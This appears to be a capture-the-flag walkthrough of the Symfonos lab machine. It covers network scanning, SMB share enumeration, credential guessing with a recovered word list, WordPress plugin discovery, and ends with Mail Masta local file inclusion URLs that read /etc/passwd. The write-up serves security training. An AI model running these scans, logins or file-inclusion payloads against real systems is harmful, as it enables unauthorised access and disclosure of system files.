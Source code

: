 <h1 align="center"><picture><img src = "https://github.com/user-attachments/assets/88e1fe29-f852-456c-8f61-f7e5fb362ae6"></picture></h1>

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Reconnaissance & Scanning</h1>

```bash
arp-scan -I eth0 --localnet --ignoredups
```
![image](https://github.com/user-attachments/assets/78f2f130-3cff-4270-bb2f-ff47be4a0ec7)

```bash
ping -c 1 192.168.1.206
```
![image](https://github.com/user-attachments/assets/11082534-d4e5-46a4-bd1d-5dcb3739a9cf)

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.206 -oG allPorts
```
![image](https://github.com/user-attachments/assets/aed9999a-d126-4a95-87ca-2191569d542e)

```bash
nmap -sCV -p22,25,80,139,445 192.168.1.206 -oN targeted
```
![image](https://github.com/user-attachments/assets/3fe2fe44-709f-4d84-8e57-2855140ee130)

<h1><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>Vulnerability Assessment</h1>

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 80</h2>

![image](https://github.com/user-attachments/assets/a17e1705-6473-414e-84c7-0a0c9614be6c)<br>
```CTRL + U```<br>
<br>
![image](https://github.com/user-attachments/assets/eee9fbf0-4fdb-4738-b9fb-8561882bc05d)

```bash
whatweb "http://192.168.1.206"
```
![image](https://github.com/user-attachments/assets/d3d9975f-ef95-4a56-ac5a-5b19837293d8)

#### **let's analyze the image we found above**
![image](https://github.com/user-attachments/assets/337c0441-58c3-4b1b-a9cc-6f584b191796)<br>
![image](https://github.com/user-attachments/assets/12484bcf-49f2-4406-9d34-7745fdc4b601)
```bash
wget http://192.168.1.206/image.jpg
```
![image](https://github.com/user-attachments/assets/a9bfcf71-aeba-4659-ab77-b162891dd820)
```bash
exiftool image.jpg
```
![image](https://github.com/user-attachments/assets/f9aa1464-dcf7-45bc-acd4-d02bd04fe942)

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.206/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x txt,py,php,sh,html,js
```
![image](https://github.com/user-attachments/assets/a548b799-c922-4c44-9f0d-2ce19fbcc161)
![image](https://github.com/user-attachments/assets/a9a82b2c-5d83-464a-92e1-181c5fa2a7b3)

#### **We have not found anything that can help us at the moment**

<h2><picture><img src="https://media2.giphy.com/media/QssGEmpkyEOhBCb7e1/giphy.gif?cid=ecf05e47a0n3gi1bfqntqmob8g9aid1oyj2wr3ds3mg700bl&rid=giphy.gif" width ="25"> </picture>PORT 445</h2>

```bash
smbmap -H 192.168.1.206
```
![image](https://github.com/user-attachments/assets/b66eba20-6e05-4740-b388-9d00a3f22b76)

```bash
smbmap -H 192.168.1.206 -r anonymous
```
![image](https://github.com/user-attachments/assets/02ed6711-5430-4525-b475-77f270c22ec7)

```bash
smbmap -H 192.168.1.206 --download anonymous/attention.txt
```
![image](https://github.com/user-attachments/assets/316386e3-3343-4c0e-9337-322771037ce9)
![image](https://github.com/user-attachments/assets/4c420a34-3da4-4af0-8ff3-0e6468c006e9)

#### **possible passwords and users**
```bash
nano users.txt

helios
Zeus
```
```bash
nano passwords.txt

epidioko
qwerty
baseball
```
![image](https://github.com/user-attachments/assets/16f07265-13d5-4e1a-ba44-9f33f1212edb)<br>

#### **let's remember that we still have a helios user share that we don't have access to so let's try the passwords found**
```bash
smbmap -H 192.168.1.206 -u helios -p qwerty
```
![image](https://github.com/user-attachments/assets/77400a11-9d41-4ef4-8847-5efe753f56bf)

```bash
smbmap -H 192.168.1.206 -u helios -p qwerty -r helios
```
![image](https://github.com/user-attachments/assets/5da48e91-22f9-44b2-b364-21bff7fde9e7)

```bash
smbmap -H 192.168.1.206 -u helios -p qwerty --download helios/research.txt
smbmap -H 192.168.1.206 -u helios -p qwerty --download helios/todo.txt
```
![image](https://github.com/user-attachments/assets/26d40dfe-9a33-43af-bd7d-e83b7f846a1e)
![image](https://github.com/user-attachments/assets/4ee92ecd-2005-49a1-be49-dbec846c6dd0)
![image](https://github.com/user-attachments/assets/1435e5d8-5ec6-4bbc-b09b-b568321b1648)
![image](https://github.com/user-attachments/assets/a97e2fa8-4867-4bb6-b53d-85561e73515a)
<br>
<br>
``CTRL + U``
<br>
<br>
![image](https://github.com/user-attachments/assets/a7fb8009-44b5-4068-9efc-8e4bc496abd6)

```bash
ping -c 1 http://symfonos.local/
```
![image](https://github.com/user-attachments/assets/303a0a02-448a-470d-ad27-3b19f5dd03db)
```bash
nano /etc/hosts/
```
![image](https://github.com/user-attachments/assets/22984232-e1a9-4ba8-bd67-1349f5714bd3)
![image](https://github.com/user-attachments/assets/8fe11ba1-788c-4e5a-aeb1-dbbae8c4f267)

```bash
whatweb "http://192.168.1.206/h3l105/"
```
![image](https://github.com/user-attachments/assets/57f2da01-d568-4bae-a778-bb65dce31a9b)

### **Fuzzing**
```bash
gobuster dir -u http://192.168.1.206/h3l105/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,py,php,sh
```
![image](https://github.com/user-attachments/assets/5080b808-1a03-4fdd-ac98-a5005769976e)


#### **we apply a word press recognition**
```bash
wpscan --url http://192.168.1.206/h3l105/ --enumerate u,vp
```
![image](https://github.com/user-attachments/assets/71a8e804-5bc2-465a-a273-2c679e15acdc)
![image](https://github.com/user-attachments/assets/4029f662-4962-48ce-a0a8-d3c8ae1b8872)
![image](https://github.com/user-attachments/assets/08fed5f8-d0c7-4ec3-bc13-1856e18259b4)

#### **we didn't find anything, but let's remember that when reviewing the source code of the web site we could see some plugins**
![image](https://github.com/user-attachments/assets/85f2eade-4728-42a4-82b5-f94825b4aa67)

#### **now from the console we will make a call to the web to make an analysis and we can extract more info.**
```bash
curl -s -X GET "http://192.168.1.206/h3l105/" | grep "wp-content" |grep -oP "'.*?'" | grep "symfonos.local" | cut -d '/' -f 1-7 | sort -u | grep plugins
```
![image](https://github.com/user-attachments/assets/e112d048-8406-4dc8-94ac-d5625cff123d)

#### **we look for possible exploits**
```bash
searchsploit mail masta
```
![image](https://github.com/user-attachments/assets/07d78f62-c6af-4322-b7f9-3374c2b38f4a)
```bash
searchxploit -x php/webapps/40290.txt
```
http://192.168.1.206/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd
![image](https://github.com/user-attachments/assets/614a157b-3fc7-425c-b946-c2e652ea5cc9)
http://192.168.1.206/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/hosts
![image](https://github.com/user-attachments/assets/f75129aa-8b8f-45ca-ab56-bffd87eea826)

















